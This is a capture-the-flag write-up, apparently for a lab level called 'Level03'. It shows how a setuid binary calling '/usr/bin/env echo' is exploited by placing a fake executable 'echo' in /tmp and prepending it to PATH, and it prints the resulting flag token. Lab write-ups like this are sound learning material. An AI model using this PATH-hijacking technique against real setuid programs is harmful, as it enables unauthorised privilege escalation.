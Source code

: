 <h1 id="level03">Level03</h1>
<ul>
	<li>We spawn with a <code>level03</code> file in root repository</li>
	<li>No extension so I try to execute it and it prints &#39;Exploit me&#39;</li>
	<li>Then I try to <em>cat</em> the file but its unreadable</li>
	<li>Using &#39;file&#39;
		<blockquote>
		<p><code>level03: setuid setgid ELF 32-bit LSB executable</code></p>
		</blockquote>
	</li>
	<li>I still wanted to get a good look at the file so I used:
	<blockquote>
		<p>
		<code>objdump -M Intel -d level03</code>
		<p><em>The -M Intel to get a more readable asm for me</em></p>
		</p>
	</blockquote>
	</li>
	<li>Code was still kinda bad so I did a little script to make it cleaner
		<blockquote>
		<p><code>sh cutlines.sh</code></p>
		</blockquote>
	</li>
	<li>We can see many calls but one of them is a system one</li>
	<li>So when we look into it on <code>gdb</code><blockquote>
	<p><code>0x80485e0:       &quot;/usr/bin/env echo Exploit me&quot;</code></p>
	</blockquote>
	</li>
	<li>It seems like <code>echo</code> is vulnerable to manipulation since it&#39;s called using <code>/usr/bin/env</code> which makes the computer use the first binary found in <code>PATH</code></li>
	<li>So we should be able to create a script called echo to get the flag for us !
	<blockquote>
		<p>
		<code>echo &#39;getflag&#39; &gt; /tmp/echo</code>
		<code>export PATH=/tmp:$PATH</code>
		<code>./level03</code>
		</p>
	</blockquote>
	</li>
	<li>DOESN&#39;T WORK ! WHY ? (Well I forgot a little something)
		<blockquote>
			<p>
			<code>chmod +x /tmp/echo</code>
			<code>./level03</code>
			<code>Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code>
			</p>
		</blockquote>
	</li>
</ul>

